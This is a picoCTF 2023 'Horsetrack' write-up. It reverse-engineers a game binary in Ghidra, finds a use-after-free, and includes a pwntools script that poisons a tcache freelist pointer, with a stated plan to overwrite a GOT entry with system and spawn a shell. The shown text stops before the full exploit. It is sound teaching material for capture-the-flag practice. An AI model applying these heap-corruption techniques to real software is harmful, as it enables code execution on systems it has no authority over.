*Disclaimer*: I didn't end up solving this challenge by myself and used the following writeups for help: <br>
*Alex Sutila's writeup https://github.com/AlexSutila/picoCTF-2023-writeups/blob/main/horsetrack/horsetrack.md
*SloppyJoePirate's video writeup https://www.youtube.com/watch?v=6c4QSlJJADA&ab_channel=SloppyJoePirates

picoCTF2023 Horsetrack writeup:
From the challenge description this is heap exploitation? 
This will be my first heap exploitation challenge, sounds fun!

## First impressions

Apart from proving an executable for us to examine, we are also provided with a libc shared object and ld-linux shared object file. The executable will not run unless these files exist and have their permissions changed to be executable.


When you do something wrong (like entering a name when the game prompts for name length) the game just kicks you out. 

Going over the character limit when setting the horse name doesn't do anything, as it turns out the extra characters just get ignored. 


You must add horses in order to race, you can have a maximum of 18 horses as the stable index range is 0-17.
After you have 5 or more horses added, you can start racing. The horses all line up to race and go towards the finish line as the game prints out a nice representation of the horses' positions on the field.


Long names get trunctuated to only 16 characters, it looks like it takes the first 16 characters of the horse name to display when racing, although when the winner is printed out we get the full name of the horse.


There is also a remove option that lets you remove an existing horse. 

## Reversing the binary

Now that all features have been explored, lets open the game in ghidra and see how it looks. <br>
Oh no where did all the symbols go (it is stripped file D:)


We can still use entry point to find main though, so its not too big of a deal! It seems main is located at `0x401c0c`


Lets go to main and take a look at whats happening

```c
/* WARNING: Switch with 1 destination removed at 0x00401cea */
/* WARNING: Exceeded maximum restarts with more pending */

undefined8 main(void)

{
  long in_FS_OFFSET;
  uint local_24;
  int local_20;
  void *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = malloc(0x120);
  local_24 = 0;
  local_20 = 0;
  FUN_00401b4d();
  FUN_0040130f(local_18);
  while (local_20 == 0) {
    puts("1. Add horse");
    puts("2. Remove horse");
    puts("3. Race");
    puts("4. Exit");
    printf("Choice: ");
    __isoc99_scanf(&DAT_0040204b,&local_24);
    if (local_24 < 5) {
                    /* WARNING: Could not find normalized switch variable to match jumptable */
                    /* WARNING: This code block may not be properly labeled as switch case */
      FUN_00401a39(local_18);
      uRam00000000004040ec = 1;
    }
    else {
      puts("Invalid choice");
    }
  }
  puts("Goodbye!");
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Before going on with analysis of the game I want to note that there should be a switch statement in the decompiler output, but Ghidra was unable to properly display it. I solve this later by using the switch override script and manually specifying the jump destinations. The version of Ghidra used was 10.3 and it seems 10.1.3 doesn't have this issue so downgrading would also fix this.

0x120 bytes malloc()ed to **local_18**, which is then passed to **FUN_0040130f**, **FUN_00401b4d** is
called without arguments and doesn't return anything, we'll have to look into that.

**local_20** is checked against zero before the prompt screen appears and you are sent to goodbye
if it is nonzero, it is init to zero so one of the 4 options must change its value which is probably whats responsible for kicking us out when we give the game incorrect inputs, I'll call it **exitCondition**

**local_24** is probably user input seeing how it is read into, I'll rename it **userInput**.

Lets look at **FUN_00401b4d** first, it is the one passed no arguments
```c
void FUN_00401b4d(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  FILE *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  local_18 = fopen("/dev/urandom","r");
  local_1c = 0;
  fread(&local_1c,4,1,local_18);
  fclose(local_18);
  srand(local_1c);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

It uses setbuf to change the type of buffering of the streams stdin, stdout, and stderr to unbuffered. I'm not too sure what difference this makes.

**local_1c** is an integer that gets filled with data from /dev/urandom, it is then passed to srand, which sets the random seed for rand() meaning it just sets the seed of rand using 4 bytes of data from /dev/urandom

Ok that function wasn't too interesting but its good to take a look at everything.

Next we'll look at **FUN_0040130f** that takes the 0x120 byte buffer as input

```c
void FUN_0040130f(long param_1)

{
  int i;
  
  for (i = 0; i < 0x12; i = i + 1) {
    *(undefined8 *)(param_1 + (long)i * 0x10) = 0;
    *(int *)(param_1 + (long)i * 0x10 + 8) = i;
    *(undefined4 *)(param_1 + (long)i * 0x10 + 0xc) = 0;
  }
  return;
}
```

It seems it divides these 0x120 bytes into 0x12 segments with 0x10 bytes each

`0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 |valc 0x00 0x00 0x00| 0x00 0x00 0x00 0x00`

Here is image of horses after being setup on the heap


This suggests that **local_18** might be an array with 0x12 elements, although there are multiple data types in each element. 0x12 is 18 in decimal, and we can have at most 18 horses, this means that **local_18** is an array of horse data structures. Based on how the function acts on this array, it seems that each horse data structure contains one 8 byte field and two 4 byte fields. Ok lets rename **local_18** to **horseData** and make it of type horseStruct*



### Addressing broken switches
Most people won't have this problem I had, but I think i'm still going to include this section because it was something I had to solve in order to complete this challenge. You can skip this section if you want to, its not very important for solving this challenge in general.
Ghidra wasn't able to display the switch that involved basically all of the game logic so I had to take a look at some of the assembly instructions to figure out what was happening.<br>


As you can see, Ghidra isn't able to dissasemble any of the  bytes beyond where the different switch cases start. Looking at the instructions, a jump table is used to determine the addresses to jump to. This table is located at **0x402288** and consists of signed 4 byte integers.  The game adds these integers to the base address of the jump table, and because the jump table is so close to where the instructions to jump to are, it only needs to use 4 byte integers instead of 8 byte long integers. 

The jump table values are:

```0xfffffa65 0xfffffa80 0xfffffaa0 0xfffffac0 0xfffffb7a```

Signed they are:

```-0x59b -0x580 -0x560 -0x540 -0x486```

Note that there are 5 values because there is actually 5 options! Apart from the options 1-4 the game tells us about, there is also an option 0.

Adding these numbers to the address of the jump table, we get the following addresses to jump to:

```0x401ced 0x401d08 0x401d28 0x401d48 0x401e02``` 

After disassembling the undisassembled bytes and highlighting these addresses for the switch override script, the switch shows up!

The switch looks quite janky, but it goes from 0-4 for input from top to bottom.

```c

undefined8 main(void)

{
  int iVar1;
  undefined8 uVar2;
  long in_FS_OFFSET;
  uint input;
  int exitCondition;
  int iStack_1c;
  horseStruct *horseData;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  horseData = (horseStruct *)malloc(0x120);
  input = 0;
  exitCondition = 0;
  FUN_00401b4d();
  FUN_0040130f(horseData);
  while (exitCondition == 0) {
    puts("1. Add horse");
    puts("2. Remove horse");
    puts("3. Race");
    puts("4. Exit");
    printf("Choice: ");
    __isoc99_scanf("%d",&input);
    if (input < 5) {
                    /* WARNING: Switch is manually overridden */
      switch(jumpTable[input]) {
      case -0x59b:
        FUN_00401a39(horseData);
        DAT_004040ec = 1;
        break;
      case -0x580:
        iVar1 = addHorse(horseData);
        if (iVar1 == 0) {
          exitCondition = 1;
        }
        break;
      case -0x560:
        iVar1 = removeHorse(horseData);
        if (iVar1 == 0) {
          exitCondition = 1;
        }
        break;
      case -0x540:
        if (DAT_004040ec == 0) {
          iVar1 = FUN_00401660(horseData);
          if (iVar1 == 0) {
            puts("Not enough horses to race");
          }
          else {
            while (iVar1 = FUN_004016b1(horseData), iVar1 == 0) {
              FUN_004017af(horseData);
              FUN_00401854(horseData);
            }
            uVar2 = FUN_00401715(horseData);
            printf("WINNER: %s\n\n",uVar2);
            for (iStack_1c = 0; iStack_1c < 0x12; iStack_1c = iStack_1c + 1) {
              horseData[iStack_1c].horseShort1 = 0;
            }
          }
        }
        else {
          puts("You have been caught cheating!");
          exitCondition = 1;
        }
        break;
      case -0x486:
        exitCondition = 1;
      }
    }
    else {
      puts("Invalid choice");
    }
  }
  puts("Goodbye!");
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

### Player options
Now that the switch and all the logic inside of it is displaying, we can take a look at the switch cases!

There are two functions I already named in the above code called addHorse() and removeHorse(), this is because they are fairly easy to find out based on what they print.

#### Add Horse - Option 1
```c

undefined8 addHorse(horseStruct *horse)

{
  uint uVar1;
  undefined8 uVar2;
  void *pvVar3;
  long in_FS_OFFSET;
  uint stableIndex;
  int nameLength;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  stableIndex = 0;
  nameLength = 0;
  printf("Stable index # (0-%d)? ",0x11);
  __isoc99_scanf("%d",&stableIndex);
  if (((int)stableIndex < 0) || (0x11 < (int)stableIndex)) {
    puts("Invalid stable index");
    uVar2 = 0;
  }
  else if (horse[(int)stableIndex].horseShort2 == 0) {
    printf("Horse name length (%d-%d)? ",0x10,0x100);
    __isoc99_scanf("%d",&nameLength);
    uVar1 = stableIndex;
    if ((nameLength < 0x10) || (0x100 < nameLength)) {
      puts("Invalid horse name length");
      uVar2 = 0;
    }
    else {
      pvVar3 = malloc((long)(nameLength + 1));
      horse[(int)uVar1].horseLong = pvVar3;
      if (horse[(int)stableIndex].horseLong == 0) {
        puts("Failed to allocate memory for horse name");
        uVar2 = 0;
      }
      else {
        FUN_00401226(horse[(int)stableIndex].horseLong,nameLength);
        horse[(int)stableIndex].horseShort2 = 1;
        printf("Added horse to stable index %d\n",(ulong)stableIndex);
        uVar2 = 1;
      }
    }
  }
  else {
    puts("Stable location already in use");
    uVar2 = 0;
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar2;
}
```

First the game recieves the stable index, which it indexes into horseData with. There is no overflow here because it checks if the stable index is within the bounds of the array. When the game gets the stable index, it checks if one of its fields **horseShort2** is set to zero, if its not, it tells us the stable location is already in use and returns a nonzero value, this will cause **exitCondition** to be set to something other then zero and kick us out of the game. If **horseShort2** isn't set, it checks for a name length to see if its within bounds (16-256) and allocates a buffer in heap to store the horse's name. It sets the horse's **horseLong** field to the buffer's address meaning that **horseLong** is a pointer to its name. The function **FUN_00401226** is tasked with populating this buffer with a name, it is passed the length of the name and the buffer address. Afterwards it sets **horseShort2** to 1 and returns. This means **horseShort2** marks whether a horse is in use.
Now we can update horseStruct



Lets rename **FUN_00401226** to **setHorseName** and take a look at what it does

```c

void setHorseName(char *horseName,uint length)

{
  int iVar1;
  char *write;
  char input;
  int i;
  
  printf("Enter a string of %d characters: ",(ulong)length);
  i = 0;
  write = horseName;
  while( true ) {
    if ((int)length <= i) {
      do {
        iVar1 = getchar();
      } while ((char)iVar1 != '\n');
      *write = '\0';
      return;
    }
    iVar1 = getchar();
    input = (char)iVar1;
    while (input == '\n') {
      iVar1 = getchar();
      input = (char)iVar1;
    }
    if (input == -1) break;
    *write = input;
    i = i + 1;
    write = write + 1;
  }
  return;
}
```

As expected, the function gets a name from the player less then the length argument and puts it in a buffer. If the name is greater then **length** it will just ignore excess characters. One interesting thing about this function is that is when the game checks input against -1. Because input is a char, this is equivalent to checking input against 0xff. If the player sends "\xff" the function stops scanning for characters and returns. This means we can add a horse without overriding any data in the chunk the game malloc()s for us. Because the game prints out the data in this chunk when racing, we can use this to leak heap metadata.

#### Remove Horse - Option 2

```c
undefined8 removeHorse(horseStruct *horseData)

{
  undefined8 uVar1;
  long in_FS_OFFSET;
  uint stableIndex;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  stableIndex = 0;
  printf("Stable index # (0-%d)? ",0x11);
  __isoc99_scanf("%d",&stableIndex);
  if (((int)stableIndex < 0) || (0x11 < (int)stableIndex)) {
    puts("Invalid stable index");
    uVar1 = 0;
  }
  else if (horseData[(int)stableIndex].horseUsed == 0) {
    puts("Stable location not in use");
    uVar1 = 0;
  }
  else {
    free(horseData[(int)stableIndex].horseName);
    horseData[(int)stableIndex].horseUsed = 0;
    printf("Removed horse from stable index %d\n",(ulong)stableIndex);
    uVar1 = 1;
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar1;
}
```

Remove horse asks the player for a valid number to index into the **horseData** array with. It checks if the horse there is currently being used (has a name allocated) via the **horseUsed**. If the horse has been used, it free()s the the buffer containing th horse's name and sets the horse's **horseUsed** field to 0 indicating that the player can add a horse in that stable now. There is a vulnerability here as the freed pointer does not get set to NULL, so any functions that use the horse's name will be accessing freed memory. 

#### Cheating - Option 0
```c
      case -0x59b:
        FUN_00401a39(horseData);
        DAT_004040ec = 1;
        break;
```

The game has a secret option for when you give it zero as a choice, it doesn't tell you about this when it prompts you for a choice. It lets you set the first 16 characters of your horse's name to something different and change their "spot". However, the game will not let you race after you do this and says you are cheating. This is because in the code above, **DAT_004040ec** is set and the game checks this variable before racing. I will rename **DAT_004040ec** to **cheating** and the function that is called to **cheat**



Lets take a look at what the cheat function does

```c
void cheat(horseStruct *horseData)

{
  long in_FS_OFFSET;
  uint stableIndex;
  undefined4 spot;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  stableIndex = 0;
  spot = 0;
  puts("You may try to take a head start, if you get caught you will be banned from the races!");
  printf("Stable index # (0-%d)? ",0x11);
  __isoc99_scanf("%d",&stableIndex);
  if (((int)stableIndex < 0) || (0x11 < (int)stableIndex)) {
    puts("Invalid stable index");
  }
  else {
    setHorseName(horseData[(int)stableIndex].horseName,0x10);
    printf("New spot? ");
    __isoc99_scanf("%d",&spot);
    horseData[(int)stableIndex].horseShort1 = spot;
    printf("Modified horse in stable index %d\n",(ulong)stableIndex);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

After taking the horse to perform the cheat on, the game calls **setHorseName** with length argument 0x10, meaning the first 16 characters of the horse's name will be changed (unless the player inputs "\xff"). Unlike **addHorse**, this function does not check if the horse is in use (thus has an allocated **horseName**) before calling **setHorseName**. This means if we call **cheat** on a horse we previously removed, we will be editing the metadata of a freed chunk! 

Afterwards the player is asked to set a "New spot" which the game sets the target horse's **horseShort1** field, it seems like this field represents the position of the horse. Now we have all the information about the contents of the horse data structures contained in the **horseData** array.



#### Race - Option 3
```c
      case -0x540:
        if (cheating == 0) {
          iVar1 = FUN_00401660(horseData);
          if (iVar1 == 0) {
            puts("Not enough horses to race");
          }
          else {
            while (iVar1 = FUN_004016b1(horseData), iVar1 == 0) {
              FUN_004017af(horseData);
              FUN_00401854(horseData);
            }
            uVar2 = FUN_00401715(horseData);
            printf("WINNER: %s\n\n",uVar2);
            for (iStack_1c = 0; iStack_1c < 0x12; iStack_1c = iStack_1c + 1) {
              horseData[iStack_1c].horseSpot = 0;
            }
          }
        }
        else {
          puts("You have been caught cheating!");
          exitCondition = 1;
        }
        break;
```

Before racing, the game makes a few checks

First, it checks whether or not **cheating** is set, it should not be set unless the player has used option 0 and modified the spot of a horse. If it is set, the game prints out "You have been caught cheating!" and exits.

Second, it calls **FUN_00401660** and checks if the return have is not zero, if it is zero the game tells us we do not have enough horses. This function counts how many horses have their **horseUsed** field set and returns whether or not that value is greater than 4. I named it **enoughHorses**
```c

bool enoughHorses(horseStruct *horseData)

{
  int horses;
  int i;
  
  horses = 0;
  for (i = 0; i < 0x12; i = i + 1) {
    if (horseData[i].horseUsed != 0) {
      horses = horses + 1;
    }
  }
  return 4 < horses;
}

```

The condition of the while statement is whether or not the return value of **FUN_004016b1** is 0, this function is passed the **horseData** array. It checks if any of the racing horses have their **horseSpot** at a value greater then or equal to `0x1d`, or `29`, if a horse has crossed this value  then it means it has crossed the finish line and the function returns 1. Otherwise, the horses are still racing and it returns 0.

```c
undefined8 horseWin(horseStruct *horseData)

{
  int i;
  
  i = 0;
  while( true ) {
    if (0x11 < i) {
      return 0;
    }
    if ((horseData[i].horseUsed != 0) && (0x1d < (int)horseData[i].horseSpot)) break;
    i = i + 1;
  }
  return 1;
}
```

While the horses are racing, two functions are called, one is to update the spots of the horses, and one is to print them on the screen.
FUN_004017af(horseData);
FUN_00401854(horseData);

**FUN_004017af** updates horse positions, I'll name it **moveHorses** It goes through every horse and sees if they're in use, if they are it moves the horses 1-5 spots forward.

```c
void moveHorses(horseStruct *horseData)

{
  int iVar1;
  int i;
  
  for (i = 0; i < 0x12; i = i + 1) {
    if (horseData[i].horseUsed != 0) {
      iVar1 = rand();
      horseData[i].horseSpot = iVar1 % 5 + 1 + horseData[i].horseSpot;
    }
  }
  return;
}
```

**FUN_00401854** prints out all the horses, I'll name it **printHorses**. It takes all horses' names and prints out the first 16 characters of them. It represents their spots by printing spaces before the names, the finish line at spot 0x1e is represented by a "|". Horses that are not in use are represented by a bunch of spaces folowed by the finish line. The function also sleeps for 1 second so that the entire race doesn't get printed out instantly.

```c

void printHorses(horseStruct *horseData)

{
  int iVar1;
  size_t sVar2;
  int i;
  int spacesBeforeName;
  int horseNames;
  int spacesAfterName;
  int emptyHorse;
  
  for (i = 0; i < 0x12; i = i + 1) {
    if (horseData[i].horseUsed == 0) {
      for (emptyHorse = 0; emptyHorse < 0x1e; emptyHorse = emptyHorse + 1) {
        putc(0x20,stdout);
      }
      putc(0x7c,stdout);
    }
    else {
      sVar2 = strnlen(horseData[i].horseName,0x10);
      iVar1 = (int)sVar2;
      for (spacesBeforeName = 0; spacesBeforeName < (int)horseData[i].horseSpot;
          spacesBeforeName = spacesBeforeName + 1) {
        putc(0x20,stdout);
      }
      for (horseNames = 0; horseNames < iVar1; horseNames = horseNames + 1) {
        putc((int)horseData[i].horseName[horseNames],stdout);
      }
      if (iVar1 + horseData[i].horseSpot < 0x1e) {
        for (spacesAfterName = 0; spacesAfterName < (0x1e - horseData[i].horseSpot) - iVar1;
            spacesAfterName = spacesAfterName + 1) {
          putc(0x20,stdout);
        }
        putc(0x7c,stdout);
      }
    }
    putc(10,stdout);
  }
  puts("\n");
  sleep(1);
  return;
}
```

Once the race ends, the game prints out the name of the winning horse and sets all horse's spots back to zero. The game calls **FUN_00401715** to get the name of the winning horse. I will call this **getWinningHorse**

```c
char * getWinningHorse(horseStruct *horseData)

{
  int highestSpot;
  int horse;
  int i;
  
  highestSpot = 0;
  horse = 0;
  for (i = 0; i < 0x12; i = i + 1) {
    if ((horseData[i].horseUsed != 0) && (highestSpot < (int)horseData[i].horseSpot)) {
      highestSpot = horseData[i].horseSpot;
      horse = i;
    }
  }
  return horseData[horse].horseName;
}
```

#### Exit - Option 4
Not much to say about this, it just sets **exitCondition** and causes you to *exit*

```c
      case -0x486:
        exitCondition = 1;
      }
```

## Exploiting the game
~~omg finally pwn after like a billion lines of text~~

*At this point I was a bit lost so I had to rely heavily on the two writeups I listed at the beginning. The method I used to pop shell is the same as the one SloppyJoePirates uses*

The game does not have a win function or anything that accesses the flag, so we need to pop a shell to read the flag. We can do many things to achieve this goal, the way I'll be using is overriding a Global Offset Table entry to point to system and passing "/bin/sh" as the argument to the function who's entry we changed. In order to do this there are some hurdles we must overcome. 

* Gain arbitrary write so we can overwrite GOT
* Leak libc addresses so we can find the address of system
* Find a way to pass a char pointer to "/bin/sh" to the function we modified

### Gaining Arbitrary Write

We need to find a way to write to the Global Offset Table. To do this, we can abuse the tcache bins. tcache bins can only hold 7 chunks each. Most freed chunks should go to the tcache bins first unless these bins are full, this means we want to attack them first. 
#### tcache

tcache bins are singly linked meaning the chunks only contain a forward pointer to the address of the next chunk in the bin, no backwards pointers. Here is a little diagram to demonstrate a tcache bin in which `C3` is the last chunk.

```Allocate ->C0->C1->C2->C3->NULL```

Libc stores these pointers in the **fd** field of these free chunks, which is also where user data would start if the chunk were allocated. Allocation is FIFO meaning that when we free a chunk we put it at the front of the bin and when we allocate a chunk we take a chunk from the front of the bin. Of course, when libc allocates a from the tcache bin it knows the location of the next chunk to allocate from by looking at the **fd** pointer of the chunk it allocated. For example, if the bin used to look like

``` C0->C1->C2->C3->NULL```

And we changed the **fd** pointer of `C0` to point to somewhere else like `C3` we would get

```C0->C3->NULL```

Which causes libc to allocate in the order `C0`, `C3`  making us  lose  `C1` and `C2`! Even worse, we can make **fd** of `C0` point to somewhere thats not even a chunk and the next time we malloc() from that bin, we would be able to write in that address! Therefore if we could mess with **fd** of the most recently freed tcache bin, we could cause malloc() to give us a pointer to arbitrary memory locations!

We add chunks to the tcache bin by allocating and freeing chunks, which we can do by adding a horse and removing it, which will put its name in the bin. Remember that when a horse is removed, **horseName** is freed but not set to zero, so we can still get some function to access it. After the chunk is freed, the first 8 bytes of the location pointed to by **horseName** becomes **fd** of the free chunk. From reversing the binary, we know that cheating is a little broken and doesn't check if a buffer has been freed before writing to it, so we can use that to change what **fd** writes to! Lets write a little script to see this in action.

```python
#! /usr/bin/python
import pwn
import time

pwn.context(binary="./vuln")
pwn.context(terminal=["xfce4-terminal", "-e"])
elf = pwn.ELF("./vuln")
libcFile = pwn.ELF("./libc.so.6") #we will use this later
p = elf.process()

def addHorse(stableIndex, nameLength, name):
	p.sendlineafter("Choice: ", b"1")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex), encoding="ascii"))
	p.sendlineafter("Horse name length (16-256)? ", bytes(str(nameLength), encoding="ascii"))
	p.sendlineafter(f"Enter a string of {nameLength} characters: ", name)

def removeHorse(stableIndex):
	p.sendlineafter("Choice: ", b"2")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex), encoding="ascii"))

def cheat(stableIndex, name):
	p.sendlineafter("Choice: ", b"0")
	p.sendlineafter("Stable index # (0-17)? ", bytes(str(stableIndex),  encoding="ascii"))
	p.sendlineafter("Enter a string of 16 characters: ", name)
	p.sendlineafter("New spot? ", b"0")

addHorse(0, 256, b"\xff") #\xff stops game from taking any input
addHorse(1, 256, b"\xff")
addHorse(2, 256, b"\xff")
removeHorse(2)
removeHorse(1)
cheat(1, pwn.p64(0xdeadbeef00) + b"\xff")
#libc gets mad if fd is not aligned to 0x10 bytes

pwn.gdb.attach(p, "heap bins") 
time.sleep(2)

```

This code adds 3 horses and removes two of them in backward order. This will cause 2 chunks to end up in tcache with horse 1 being at the front, then we overwrite the forward pointer of horse one so that libc sees the second chunk as `0xdeadbeef` Then we can run gdb and take a look at the bins! 

